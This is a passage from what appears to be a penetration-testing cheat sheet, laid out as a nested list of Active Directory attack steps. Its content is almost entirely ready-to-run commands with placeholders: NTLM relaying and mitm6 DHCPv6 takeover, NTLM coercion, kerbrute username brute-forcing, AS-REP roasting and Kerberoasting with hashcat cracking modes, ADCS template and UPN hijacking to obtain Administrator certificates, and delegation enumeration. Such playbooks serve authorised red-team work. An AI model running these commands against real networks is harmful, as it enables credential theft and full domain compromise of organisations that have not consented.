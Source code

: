         *   LLMNR
            *   `respond()`
            *   Web Exploits                      → LFI / XXE / SSRF / SQLi
            *   Phishing / Client Forms  → Responder Link / Bad-PDF / [NTLM\_Thef](https://github.com/Greenwolf/ntlm_theft) Office Files
            *   Cracking                              → `hashcat -m 5600`
        *   Unsigned Relaying
            *   `respond()`                                                                              → Set `HTTP/SMB = Off`
            *   `nxc smb [ALIVE_IPS] --gen-relay-list [OUT_FILE]` → List Vulnerable Servers
            *   `MultiRelay.py -t [VULN_SERVER_IP] -u ALL -d`
            *   `ntlmrelayx --no-http-server -smb2support -t [VULN_SERVER_IP]`
        *   DHCPv6 Takeover
            *   `sudo mitm6 -I [NIC] -d [DOMAIN]`
            *   `ntlmrelayx.py -6 -wh fakewpad.[DOMAIN] -t ldap://[DC_IP]:[PORT]`
        *   NTLM Coercion
            *   Check → `nxc smb [DC_IP] [AUTH_STRING] -M coerce_plus`
            *   Exploitation
                *   `respond()` / NTLMRelayx Listener
                *   `nxc smb [DC_IP] [AUTH_STRING] -M coerce_plus -o LISTENER=[RESPONDER_IP]` 
*   LDAP
    *   User Enumeration
        *   `nxc ldap [DC_IP] [AUTH_STRING] --query "(sAMAccountType=805306368)" "sAMAccountName description memberOf"`
        *   `ldeep [AUTH_STRING] -d [DOMAIN] -s ldap://[DC_IP] all [OUT_DIR]` → Full DB Dump + [Output Parsing](https://github.com/franc-pentest/ldeep)
        *   KB Bruteforcing
            *   Generate Users → `usergen() [FULL_NAMES.txt]` / [Statistically Likely](https://github.com/insidetrust/statistically-likely-usernames) / Seclists Xato-Net + `Names.txt`
            *   `kerbrute userenum -d [DOMAIN] [GENERATED_USERS.txt] --dc [DC_IP] -d [DOMAIN]`
    *   Domain Roasting
        *   ASREP
            *   Try Both Techniques
            *   `nxc ldap [DC_IP] -u [VALID_USERS.txt] -p '' --asreproast --kdcHost [DOMAIN]`
            *   `nxc ldap [DC_IP] [AUTH_STRING] --asreproast --kdcHost [DOMAIN]`
            *   Cracking → `hashcat -m 18200`
        *   KBR
            *   Try Both Techniques
            *   `nxc ldap              [DC_IP] [AUTH_STRING] --kerberoasting --kdcHost [DOMAIN]`
            *   `GetUserSPNs.py        [DOMAIN]/ -no-preauth [ASREP_USERNAME] -usersfile [VALID_USERS.txt] -dc-ip [DC_IP]`
            *   Cracking → `hashcat -m 13100`
    *   Certificate Abuse
        *   [ESC Exploitations](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
        *   Enumeration
            *   `nxc ldap [DC_IP]    [AUTH_STRING] -M adcs`
            *   `certipy-ad find     [AUTH_STRING] -scheme ldap -debug -dc-ip [DC_IP] -vulnerable -stdout`
            *   `certipy-ad template [AUTH_STRING] -template [TEMPLATE_NAME] -dc-ip [DC_IP]`
        *   Template Hijacking
            *   `certipy-ad template [AUTH_STRING] -template [TEMPLATE] -target [DC_HOSTNAME] -dc-ip [DC_IP]`
            *   `certipy-ad req      [AUTH_STRING] -ca [CA_NAME] -target [DC_HOSTNAME] -dc-ip [DC_IP] -template [TEMPLATE] -upn Administrator@[DOMAIN] -ns [DC_IP] -dns [DC_IP]`
            *   `certipy-ad auth -pfx [PFX_FILE] -dc-ip [DC_IP]`
        *   UPN Hijacking
            *   `certipy-ad account update [AUTH_STRING] -user [VULN_USER] -upn "Administrator" -dc-ip [DC_IP]`
            *   `certipy-ad req [VULN_USER_AUTH_STRING] -target [DC_IP] -ca [CA_NAME] -template [TEMPLATE] -dc-ip [DC_IP]`
            *   `certipy-ad account update [AUTH_STRING] -user [VULN_USER] -upn "[VULN_USER]@[DOMAIN]" -dc-ip [DC_IP]`
            *   `certipy-ad auth -pfx [PFX_FILE] -domain [DOMAIN] -dc-ip [DC_IP]`
    *   [Delegation Abuse](https://www.thehacker.recipes/ad/movement/kerberos/delegations/)
        *   Unconstrained
            *   `nxc ldap [DC_IP] [AUTH_STRING] --trusted-for-delegation`